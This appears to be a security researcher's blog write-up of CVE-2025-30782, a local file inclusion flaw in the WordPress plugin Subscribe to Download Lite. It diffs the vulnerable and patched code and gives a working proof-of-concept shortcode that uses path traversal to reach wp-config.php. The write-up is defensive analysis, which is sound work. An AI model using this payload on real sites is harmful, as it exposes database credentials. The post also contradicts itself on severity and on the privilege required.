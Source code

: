 # CVE-2025-30782 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Subscribe to Download Lite** plugin version **≤ 1.2.9** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby including or reading local files on the server (for example configuration files that contain credentials), leading to sensitive information disclosure and, in some configurations, possible code execution.

* **CVE ID**: [CVE-2025-30782](https://www.cve.org/CVERecord?id=CVE-2025-30782)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.2.9
* **Patched Versions**: 1.3.0
* **CVSS severity**: Low (7.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Subscribe to Download Lite Plugin](https://wordpress.org/plugins/subscribe-to-download-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Subscribe to Download Lite**: **1.2.9** (vulnerable) and **1.3.0** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```phtml {filename="form-template.php v1.2.9" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">
        <?php
        do_action('stdl_before_form', $form_details);

        if (file_exists(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php')) {
            include(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php');
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

In the vulnerable version, `$form_template` is concatenated into the path and included without validating the input => LFI risk, for example:

```php
$form_template = '../../../../../../../wp-config'
```

**Patched version**:

```phtml {filename="form-template.php v1.3.0" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">

        <?php
        do_action('stdl_before_form', $form_details);

        $base_dir = realpath(STDL_PATH . 'inc/views/frontend/form-templates') . DIRECTORY_SEPARATOR;
        $sanitized_template = basename($form_template) . '.php';
        $file_path = realpath($base_dir . $sanitized_template);

        if ($file_path && strpos($file_path, $base_dir) === 0 && file_exists($file_path)) {
            include($file_path);
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

The patch uses [`basename()`](https://www.php.net/manual/en/function.basename.php) to extract the file name portion of `$form_template`, removing traversal sequences `../`, for example:

```py
../../../../../../payload.pdf -> payload.pdf
```

Then it concatenates into `$base_dir` and resolves the absolute path with [`realpath`](https://www.php.net/manual/en/function.realpath.php) before `include()` => effectively eliminates the **LFI** possibility.

### Vulnerable Code

The vulnerable `form-template.php` shown above is invoked from `stdl-shortcode.php`

```phtml {filename="stdl-shortcode.php v1.2.9" hl_lines=[8, 18]}
<?php
$form_template = (!empty($atts['template'])) ? $atts['template'] : $form_details['layout']['template'];
if (isset($_COOKIE['stdl_encryption_key']) && $this->check_if_already_subscribed($_COOKIE['stdl_encryption_key']) && empty($form_details['general']['always_show'])) {
    // other logic
} else {
    // other logic
    if ($display_type == 'direct') {
        include(STDL_PATH . 'inc/views/frontend/form-template.php');
    } else {
        ?>
        <div class="stdl-popup-outerwrap <?php echo esc_attr($popup_alias_class); ?>">
            <input type="button" class="stdl-popup-trigger stdl-popup-<?php echo esc_attr($form_template); ?>" value="<?php echo esc_attr($popup_trigger_text); ?>">
            <div class="stdl-popup-innerwrap" style="display:none;">
                <div class="stdl-overlay stdl-popup-wrapper">

                    <div class="stdl-popup-contetn-wrap">
                        <a href="javascript:void(0)" class="stdl-popup-close"><i class="fas fa-times"></i></a>
                            <?php include(STDL_PATH . 'inc/views/frontend/form-template.php');
                            ?>
                    </div>
                </div>
            </div>
        </div>
        <?php
    }
}
```

`$form_template` is the value of `$atts['template']`

From CVE analysis experience on WordPress plugins, `$atts` is typically the shortcode attributes array, for example:

```
[pornhub id=69]
```

Note that `form-template.php` **is always included** within the inner `if-else` block inside the outer `else` when the `stdl_encryption_key` cookie does not exist (i.e., the user has not subscribed or does not have a valid encryption key).

`stdl-shortcode.php` is included by the shortcode callback `subscribe_to_download_form` with `atts` being the shortcode attributes array.

```php {filename="class-stdl-shortcode.php v1.2.9" hl_lines=[2,8]}
function __construct() {
    add_shortcode('subscribe_to_download_form', array($this, 'generate_shortcode_output'));
}

function generate_shortcode_output($atts) {
    wp_enqueue_style('stdl-frontend-custom', STDL_CSS_DIR . '/stdl-custom.css', array(), STDL_VERSION);
    ob_start();
    include(STDL_PATH . 'inc/views/frontend/stdl-shortcode.php');
    $form_html = ob_get_contents();
    ob_clean();
    return $form_html;
}
```

## Exploit

### Proof of Concept (PoC)

#### Step 1

Log in to WordPress with a Contributor account (lowest privilege that can create posts).

#### Step 2

Create a post with the shortcode

```shortcode
[subscribe_to_download_form template='../../../../../../../wp-config']
```

**Result**:

The debugger reached `wp-config.php`

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion

Version **≤ 1.2.9** of Subscribe to Download Lite allows LFI because `include()` uses an unvalidated `$atts['template']`; the issue was fixed in **1.3.0** by normalizing and restricting the template name (`basename()` + `realpath()` + `base_dir` check) before `include()`. Update immediately.

## Key takeaways

* Shortcode input is untrusted — do not include directly.
* Patch (v1.3.0) uses `basename()` + `realpath()` + compare with allowed directory.
* Actions: update the plugin, whitelist/validate attributes.
* Monitor logs for `../` in template parameters.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Subscribe to Download Lite Plugin <= 1.2.9 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/subscribe-to-download-lite/vulnerability/wordpress-subscribe-to-download-lite-plugin-1-2-9-local-file-inclusion-vulnerability?_s_id=cve)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-16-cve-2025-30782/  

